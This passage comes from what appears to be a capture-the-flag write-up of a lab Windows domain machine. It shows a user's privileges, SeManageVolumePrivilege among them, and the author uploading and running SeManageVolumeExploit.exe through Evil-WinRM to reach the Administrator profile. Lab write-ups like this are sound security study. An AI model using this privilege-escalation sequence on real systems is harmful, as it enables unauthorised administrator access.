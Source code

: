 ```sh
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain Storage Managers        Group            S-1-5-21-515537669-4223687196-3249690583-1118 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

We find that there's many POC publishings for updating the root systems permission flags which are supposed to allow for things like disk defragmentation as a member of the SeManageVolume permissions, but it means we can also do this:

```sh
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> upload SeManageVolumeExploit.exe
                                        
Info: Uploading /home/tokugero/ctf/htb/season8/week3-certificate/winrm/SeManageVolumeExploit.exe to C:\Users\Ryan.K\Documents\SeManageVolumeExploit.exe
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> ./SeManageVolumeExploit.exe
Entries changed: 842

DONE

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> cd ../../Administrator
*Evil-WinRM* PS C:\Users\Administrator> dir -fo


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       11/26/2024   6:18 PM                3D Objects
d--h--         6/3/2025   1:02 AM                AppData
d--hsl        11/3/2024   1:05 AM                Application Data
d-r---       11/26/2024   6:18 PM                Contacts
d--hsl        11/3/2024   1:05 AM                Cookies
```